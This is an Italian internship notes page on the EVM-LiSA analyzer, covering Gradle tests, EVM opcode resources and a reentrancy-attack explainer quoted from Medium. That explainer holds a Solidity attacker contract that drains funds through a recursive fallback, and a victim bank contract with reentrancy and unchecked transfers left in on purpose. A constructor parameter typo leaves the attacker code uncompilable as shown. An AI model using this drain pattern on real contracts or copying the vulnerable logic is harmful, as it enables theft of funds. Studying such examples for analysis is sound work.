

# Tirocinio su EVM-LiSA
Questa è la pagina web con tutte le informazioni e materiale procurato/usato durante il tirocinio.

---

* Table of Content
{:toc}

---



## Come eseguire tutti i test
Tasto destro su `src/test/java` ed eseguire come `Junit test`.

## Che cos’è Gradle?
Gradle è uno strumento di automazione della build e un sistema di gestione delle dipendenze utilizzato principalmente per progetti basati su Java, ma può essere esteso per supportare altri linguaggi di programmazione. È progettato per semplificare il processo di compilazione, test e distribuzione del software in modo efficiente e coerente.

Gradle semplifica la gestione delle dipendenze del progetto. Può scaricare automaticamente librerie da repository remoti e gestire le versioni delle dipendenze in modo coerente.

La build in Gradle è basata su task. Un task rappresenta un'unità di lavoro specifica, come la compilazione del codice, l'esecuzione dei test, la creazione di un pacchetto distribuibile, ecc.

```bash
# Eseguire test singoli senza eseguire una build 
./gradlew spotlessApply 
./gradlew check
```

## EVM Codes - Playground
- [Online tool](https://www.evm.codes/playground?fork=shanghai&unit=Wei&codeType=Mnemonic)  
- [evm.codes](https://www.evm.codes/)
- Spiegazione opcodes: [Medium](https://veridelisi.medium.com/learn-opcodes-7bd28d5f0d1b).

---

## Altre info
- [Differenza tra memory e calldata](https://ethereum.stackexchange.com/questions/74442/when-should-i-use-calldata-and-when-should-i-use-memory)
- [Keccak-256 online tool](https://emn178.github.io/online-tools/keccak_256.html)

### Attacco di rientranza 
The reentrancy vulnerability is a bit more technical. For instance, suppose you’ve written a smart contract, and inside that smart contract, there’s a line of code in the withdraw function that uses the `call()` function to allow a user to withdraw funds. The user can be an individual or another smart contract. Let's consider the case where the user is another smart contract. When the user triggers the withdraw function, the `call()` function, on the user's side, will invoke the fallback function of the user's smart contract (even if the fallback function hasn't been explicitly created, it runs as empty by default, following a rule). In this scenario, if a malicious user inserts a new withdraw line into the fallback function, they can enter into a loop and drain all the funds within the smart contract, leading to significant losses. Because when the `withdraw` function is executed, it triggers the `call()` function again, which, in turn, invokes the `fallback()` function, resulting in a loop. This allows for the withdrawal of all the coins within the smart contract.

Attacker Smart Contract
```solidity
pragma solidity 0.7.0;  
import "./basicbank4.sol";  

contract attacker{  
	BasicBank4 targeted_contract;  
	
	constructor(address payable hedef_adres) payable {  
		targeted_contract= BasicBank4(targeted_adres);  
	}  
	  
	function deposit1() payable external{}  
	  
	function attack() external payable {  
		targeted_contract.deposit{value:1000000000000000000}();  
		targeted_contract.withdraw(1000000000000000000);  
	}  
	  
	fallback() external payable {  
		if(address(targeted_contract).balance > 2000000000000000000){  
			targeted_contract.withdraw(1000000000000000000);  
		}  
	}  
}
```

Victim Smart Contract 🥲
```solidity
pragma solidity 0.7.0;  
  
contract BasicBank4 {  
  
	mapping (address => uint) private userFunds;  
	address private commissionCollector;  
	uint private collectedComission = 0;  
	  
	constructor() payable {  
		commissionCollector = msg.sender;  
	}  
	  
	modifier onlyCommissionCollector {  
		require(msg.sender == commissionCollector);  
		_;  
	}  
	  
	function deposit() public payable {  
		require(msg.value >= 1 ether);  
		userFunds[msg.sender] += msg.value;  
	}  
	  
	function withdraw(uint _amount) external payable {  
		require(getBalance(msg.sender) >= _amount);  
		msg.sender.call{value: _amount}("");  
		userFunds[msg.sender] -= _amount + _amount/100;  
		userFunds[commissionCollector] += _amount/100; 
	}
	  
	function getBalance(address _user) public view returns(uint) {  
		return userFunds[_user];  
	}  
	  
	function getCommissionCollector() public view returns(address) {  
		return commissionCollector;  
	}  
	  
	function transfer(address _userToSend, uint _amount) external {  
		userFunds[_userToSend] += _amount;  
		userFunds[msg.sender] -= _amount;  
	}  
	  
	function setCommissionCollector(address _newCommissionCollector) 
									external onlyCommissionCollector {  
		commissionCollector = _newCommissionCollector;  
	}  
	  
	function collectCommission() external {  
		userFunds[msg.sender] += collectedComission;  
		collectedComission = 0;  
	}  
}
```

> Fonte: [Medium](https://medium.com/@senaaslibay/10-most-common-ethereum-smart-contractvulnerabilities-62008c5f54e0).

